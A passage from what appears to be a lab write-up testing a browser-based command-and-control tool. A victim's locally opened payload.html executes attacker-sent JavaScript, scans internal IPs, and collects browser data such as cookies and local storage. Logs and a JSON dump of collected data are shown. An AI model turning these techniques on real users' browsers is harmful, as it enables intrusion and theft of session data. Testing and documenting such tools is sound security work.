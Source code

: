 Also server logged it:

```
[🚨 From victim-1] [✅ EXEC] Executed: alert('Hello victim!');...
```

##### Target URL

I tried to visit the Control Panel using `https://10.3.10.99:8443/static/control.html` url, but it was blocked by the **Victim**'s browser with an error visible in browser's console: `Access to fetch at 'https://10.3.10.99:8443/static/control.html' from origin 'null' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource`

Server log:

```
[🚨 From victim-1] [❌] Fetch error for https://10.3.10.99:8443/static/control.html: TypeError: Failed to fetch
```

##### Scan LAN Targets

This works a bit differently than you may expect. This is not an `nmap` pr ping sweep type of scan, but it rather tries to contact selected IPs and ports using HTTPS protocol. This is an example of output when I specified IP range `10.3.10.10-12` and port `443`:

```
[🚨 From victim-1] [❌] Fetch error for https://10.3.10.10:443: TypeError: Failed to fetch
[🚨 From victim-1] [❌] Fetch error for https://10.3.10.11:443: TypeError: Failed to fetch
[🚨 From victim-1] [❌] Fetch error for https://10.3.10.12:443: TypeError: Failed to fetch
```


##### Collect Browser Information

Seemed to be working well, but I didn't have enough cookies or other sensitive data in the browser:

```
[COLLECTED INFO]
{
  "useragent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36 Edg/138.0.0.0",
  "platform": "Win32",
  "url": "file:///C:/Users/brandon.stark/Documents/payload.html",
  "referrer": "",
  "plugins": [
    "PDF Viewer",
    "Chrome PDF Viewer",
    "Chromium PDF Viewer",
    "Microsoft Edge PDF Viewer",
    "WebKit built-in PDF"
  ],
  "cookies": "",
  "localStorage": {},
  "sessionStorage": {}
}
```
